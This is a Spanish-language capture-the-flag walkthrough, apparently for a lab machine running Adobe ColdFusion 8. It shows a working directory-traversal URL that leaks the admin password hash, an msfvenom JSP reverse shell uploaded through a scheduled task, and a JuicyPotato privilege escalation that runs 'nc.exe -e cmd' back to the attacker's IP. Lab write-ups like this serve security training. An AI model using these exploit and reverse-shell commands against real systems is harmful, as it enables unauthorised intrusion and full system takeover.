 # Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows



Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus



Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services



Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.


Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/





Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8



Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp


Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra



Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.



Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 


Busco vulnerabilidades de Adobe ColdFusion 8



Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03



Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”


En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:



Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 






# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp



Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp



Comparto el archivo shellreverse.jsp
python3 -m http.server 80


Guardo archivo como tarea programada


Corro la tarea programada



Verifico la carga del archivo







Me pongo en escucha por el puerto 443



Recibo la consola autenticado como tolis en la máquina víctima






# Explotación WEB






# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”



Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe



Me pongo en escucha por el puerto 4646



Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"



Recibo  la consola



Encuentro la Flag







# Links útiles


  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios
## Exploits
## Herramientas
